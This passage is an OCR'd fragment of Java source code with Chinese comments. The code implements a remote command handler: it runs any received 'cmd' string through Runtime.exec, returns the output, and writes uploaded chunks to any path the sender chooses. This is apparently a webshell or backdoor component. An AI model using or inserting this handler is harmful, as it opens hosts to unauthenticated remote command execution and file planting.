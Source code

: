 ```
                            outputStream.write("".getBytes());
                            outputStream.flush();
                            outputStream.close();
                            break;
                        } else if ("cmd".equals(receive[0])) {
                            // 执行命令 返回结果
                            try {
                                Process proc = runTime.exec(receive[1]);
                                InputStream in = proc.getInputStream();
                                byte[] procData = new byte[1024];
                                byte[] total = new byte[0];
                                int procDataLen = 0;
                                while ((procDataLen = in.read(procData)) != -1) {
                                    byte[] temp = new byte[procDataLen];
                                    for (int i = 0; i < procDataLen; i++) {
                                        temp[i] = procData[i];
                                    }
                                    total = byteMerger(total, temp);
                                }
                                if (total.length == 0) {
                                    out.write("error".getBytes());
                                } else {
                                    out.write(total);
                                }
                                out.flush();
                            } catch (Exception e) {
                                e.printStackTrace();
                                out.write("error".getBytes());
                                out.flush();
                            }
                        } else if ("upload".equals(receive[0])) {
                            // 切换成传输模式
                            uploadPath = receive[1];
                            isUploadStart = true;
                            opcode = 1;
                        }
                    } else if (opcode == 1) {
                        // 传输模式
                        byte[] receive = new byte[len];
                        for (int i = 0; i < len; i++) {
                            receive[i] = data[i];
                        }
                        if (Arrays.equals(overData, receive)) {
                            // 传输结束切换成功能模式
                            isUploadStart = false;
                            opcode = 0;
                        } else {
                            // 分块接收
                            FileOutputStream outputStream = null;
                            if (isUploadStart) {
                                // 接收文件的开头部分
                                outputStream = new FileOutputStream(uploadPath, false);
                                outputStream.write(receive);
                                isUploadStart = false;
                            } else {
                                // 接收文件的结束部分
                                outputStream = new FileOutputStream(uploadPath, true);
                                outputStream.write(receive);
                            }
                            outputStream.close();
                        }
                    }
                } else {
```